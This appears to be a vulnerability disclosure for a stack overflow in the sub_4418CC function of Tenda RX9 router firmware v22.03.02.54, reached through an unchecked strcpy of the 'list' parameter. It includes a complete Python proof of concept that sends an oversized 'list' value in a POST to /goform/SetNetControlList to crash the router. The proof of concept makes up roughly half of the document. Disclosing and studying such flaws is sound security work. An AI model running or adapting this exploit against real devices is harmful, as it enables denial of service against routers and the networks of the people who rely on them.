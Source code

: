 # Tenda router sub_4418CC function stack overflow vulnerability

> vendor:Tenda
>
> product:RX9
>
> version:v1.0 v22.03.02.54
>
> type:Stack Overflow

## Vulnerability Description

Tenda RX9 v1.0 v22.03.02.54 were discovered to contain a stack overflow via the list parameter in the sub_4418CC function.

## Vulnerability Details

In the function, after V1 obtains the variable named "list", it is directly called by the sub_4418CC function without processing. In this function, without processing, it is called by the dangerous function strcpy. The attacker can modify the variable list in the post request. The parameter length may overflow the v14-based stack buffer to achieve denial of service.

![image](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/22f5d026-0984-4ef1-82bf-e375f68715c2)
![image](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/2df55055-9b82-4a01-9006-ce273d001dcd)
![image](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/b2dddc4b-5644-4c16-a250-d28876aed3de)

![image](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/97596476-96d6-45de-9d2a-c119469660cf)


## POC

    import socket
    import os
    from pwn import *

    li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
    ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

    ip = '192.168.244.130'
    port = 80

    r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    li('[+] connecting')
    r.connect((ip, port))
    li('[+] connect finish')

    rn = b'\r\n'

    p1 = b'A' * 0x500

    p2 = b'list=' + p1

    p3 = b"POST /goform/SetNetControlList" + b" HTTP/1.1" + rn
    p3 += b"Host: 192.168.244.130" + rn
    p3 += b"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36" + rn
    p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
    p3 += b"Accept-Language: gzip, deflate" + rn
    p3 += b"Accept-Encoding: zh-CN,zh;q=0.9" + rn
    p3 += b"Cookie: password=cjq1qw" + rn
    p3 += b"Connection: close" + rn
    p3 += b"Upgrade-Insecure-Requests: 1" + rn
    p3 += (b"Content-Length: %d" % len(p2)) +rn
    p3 += b'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'+rn
    p3 += rn
    p3 += p2

    li('[+] sending payload')
    r.send(p3)

    response = r.recv(4096)
    response = response.decode()
    li(response)


   
